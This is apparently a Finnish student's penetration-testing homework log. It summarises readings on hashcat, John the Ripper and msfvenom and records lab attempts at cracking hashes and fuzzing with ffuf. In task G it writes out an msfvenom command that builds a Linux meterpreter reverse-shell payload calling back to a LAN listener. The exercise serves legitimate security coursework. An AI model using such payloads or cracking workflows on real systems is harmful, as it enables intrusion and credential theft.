 # H4 Marraskuu2024!

## Tehtävä X Lue ja Tiivistä

### Cracking Passwords with Hashcat

- Sanakirja vaaditaan hashcattaamiseen
- Todella hyödyllinen lisä komento on -m, jolla saat selville algorytmien numeron, jonka avulla tarkentaa hashcattauksen tiettyihin algorytmeihin.
- Status cracked tarkoittaa ratkaistua salasanaa ja exhausted että kaikki sanat on käyty läpi eikä osumaa löytynyt.
- näytönohjain vaikuttaa koodin suoritus nopeuteen.


### Crack File Password With John

- John ohjelman käyttöön tarvitaan lisä kirjastoja
- vaatii muutaman GB ramia
- Zip paketit murretaan kahdessa vaiheessa, ensin napataan hash ja sitten tehdään sanakirjahyökkäys.
- toimii todella moneen eri formaatin tiedostoon.


### Hacking user credentials

- Suurin osa ihmisistä käyttää samaa salasanaa monessa paikassa.
- Nykyään helppo murtaa salasanoja mms. heikkojen algorytmien, sanakirjojen ja parempien tietokoneiden takia.
- pitkä salasana parempi kuin lyhyt monimutkainen
- 2 factor authentication suositeltavaa


### MSFVENOM

- lisäkomennolla -a saat arkkitehtuuri valinnan
- Monia erityyppisisa payloadeja kuten reverse hell, bindshell, create user, cmd shell, execute command ja encoder
- windowssille, linuxille macille ja verkkosivuille omat koodit, myös koodi kieli payloadeja.


## Tehtävä A

Äloitin tehtävän yrittämällä asentaa hashcat ja hashid kaliini, mutta molemmat oli jo asennettuna valmiiksi niin jatkoin rockyou tekstitiedoston lataamiseen ja varmistin vielä että sieltä löytyy tarpeeksi sanoja.

![image](https://github.com/user-attachments/assets/3e87b384-906c-4834-8f2a-48033b928980)

seuraavaksi kopioin esimerkki salasanan ja selvitin mitä tilaa hashcatissa pitäisi ajaa suorittamaalla hashid analyysin.

![image](https://github.com/user-attachments/assets/5e8935cc-f3a1-4525-b8d5-3779cc15dc4b)

Valitsin tilaksi MD5, jonka tilanumero oli 0 ja syötin seuraavaksi sanakirja hyökkäys komennon.

![image](https://github.com/user-attachments/assets/972b2c0f-fd84-421a-8d75-fe4ea49c7c96)

Komento antoi vastauksen cracked ja luin sitten cat komennolla mikä kyseinen salasana oli.

![image](https://github.com/user-attachments/assets/b0098789-52c4-4888-9b14-fd9c303baaab)


## Tehtävä C (tehtävänannossa ei ole B tehtävää)

Ajoin ohjeen apt-get asennus koodi rivin ja huomasin että libssl-dev ja zlib-gst olivat ainoat joita ei voitu asentaa. yritin muutaman tunnin selvittää miten saisin zlib-gst asennettua. Ensin yritin asentaa binäärin lataamalla sen netistä ja asentamalla komennolla dpkg, mutta asennus vaati gnu smalltalk ja gnu smalltalk commonin. seuraavaksi yritin asentaa gnu smalltalkin mutta se vaati mmmap ja aloin uskomaan että lähestyn asiaa väärästä suunnasta ja päätin jatkaa toiseen ongelmaan. libssl löysin apt search komennolla mutta install komennolla tuli ilmoitus ip not found. googlettamalla ongelmaan päädyin ratkaisuun että apt/sources.list tiedosto on virheellinen sillä apt-get upgrade komento ei myöskään toiminut. lisäsin netistä löytämäni komentorivit source tiedostoon ja sain apt-get komennot toimimaan taas.

![image](https://github.com/user-attachments/assets/4f3a58a3-5548-4212-aab2-61266990ebef)

Yrittäessäni uudestaan asentaa libssl ilmoitti kali että riippuvuudet menevät päällekkäin toisen tiedoston kanssa enkä tiennyt mitä muuta yrittää. Päätin kokeilla jos john toimisi silti.

![image](https://github.com/user-attachments/assets/ce21ff5d-d5ab-4ac1-b33d-2d8bf004af10)

Asennus jäi jumiin libssl puutteeseen, jonka vuoksi en saanut tehtävää tehtyä pidemmälle.

## Tehtävä D

Aloitin tehtävän asentamalla docker.io git ffuf paketin sekä lataamalla fuffme githubista.

![image](https://github.com/user-attachments/assets/24d47c4a-a840-4675-bd19-c88edb79d987)

Seuraavaksi menin ladattuun kansioon ja loin uuden docker tiedoston. ajaessani uutta tiedostoa en kuitenkaan saanut sitä löytämään fuffme:latest tagia mutta kun ajoin saman komennon uudestaan tiedoston luomiseen se alkoi toimimaan vaikka mitään ei muutettu.

![image](https://github.com/user-attachments/assets/2d657a70-2096-4f6a-ad9e-edbe106b7998)

![image](https://github.com/user-attachments/assets/1d010e49-c0b2-429e-a9cb-8c9818c74fab)

![image](https://github.com/user-attachments/assets/b8575b4b-3763-496d-b46a-4a93608a5317)

Testasin vielä curlin

![image](https://github.com/user-attachments/assets/93c81589-0dfd-41d7-b25b-aac01fba0de1)

Sitten latasin uudet sanalistat.

![image](https://github.com/user-attachments/assets/c07b21c3-f938-442b-add0-43b97d50b7e6)

Yritin ajaa ffuf komennon, mutta sain pelkkiä virheitä tuloksena enkä saanut selville miksi tämä ei toiminut vaikka yritin tehdä ohjeiden mukaan uudestaan copy pastea hyödyntäen kaikki komennot.

![image](https://github.com/user-attachments/assets/2751d4dc-1e65-4084-8ea4-07506c01e8aa)

## Tehtävä F

päätin kokeilla käyttää rockyou.txt tiedostossa olevaa sanaa iloveyou. katsoin tiivisteen sha256sum algoritmilla sekä varmistin hashcat tila numeron hashid komennolla.

![image](https://github.com/user-attachments/assets/3b0a12af-d333-49d8-8d40-a6908a384d2b)

Tajusin että olin unohtanut komennostani lisä rivin -n, jonka vuoksi tiiviste on virheellinen. kävin ajamassa tiiviste koodin uudestaan echo -n iloveyou|sha256sum ja ajoin sen uudestaan.

![image](https://github.com/user-attachments/assets/8795e9a9-9e11-4a39-b159-1fa706a8c253)

Tiiviste rikottu.

## Tehtävä G

loin uuden payloadin msfvenomilla komennolla msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.88.101 LPORT=8080 -f elf > reverse.elf. Seuraavaksi loin uuden linux koneen virtual boxissa. uudessa koneessa ei ollut root oikeuksia enkä saanut muutettua ip osoitetta niin että olisin saanut sen samaan verkkoon kuin kali. koitin tehdä myös uuden kali koneen mutta siinäkään en saanut ip osoitetta muutettua. yritin luoda vagrantilla uuden koneen mutta se jäi jumiin joka kerta ensimmäisen koneen avaamisen jälkeen. 

![image](https://github.com/user-attachments/assets/55b90aa0-402c-46a8-9750-56cfb5824e41)

![image](https://github.com/user-attachments/assets/e2893bfb-bd94-4073-a5d1-03afc7999c2c)



## Lähteet

O'reilly. 2017. Hacking user credentials. luettavissa: https://learning.oreilly.com/videos/the-art-of/9780135767849/9780135767849-SPTT_06_00/ Luettu: 16.11.2024

Karvinen. T. 2022. Cracking Passwords with Hashcat. Luettavissa: https://terokarvinen.com/2022/cracking-passwords-with-hashcat/ Luettu: 16.11.2024

Karvinen. T. 2023. Crack File Password With John. Luettavissa: https://terokarvinen.com/2023/crack-file-password-with-john/ Luettu: 16.11.2024

Hacktricks. 2024. MSFVENOM - Cheatsheet. Luettavissa: https://book.hacktricks.xyz/generic-methodologies-and-resources/reverse-shells/msfvenom Luettu: 16.11.2024

Karvinen. T. 2024. Tunkeutumistestaus. Luettavissa: https://terokarvinen.com/tunkeutumistestaus/ Luettu: 16.11.2024

Kali. 2023. Kali Network Repositories (/etc/apt/sources.list). luettavissa: https://www.kali.org/docs/general-use/kali-linux-sources-list-repositories/ luettu 17.11.2024
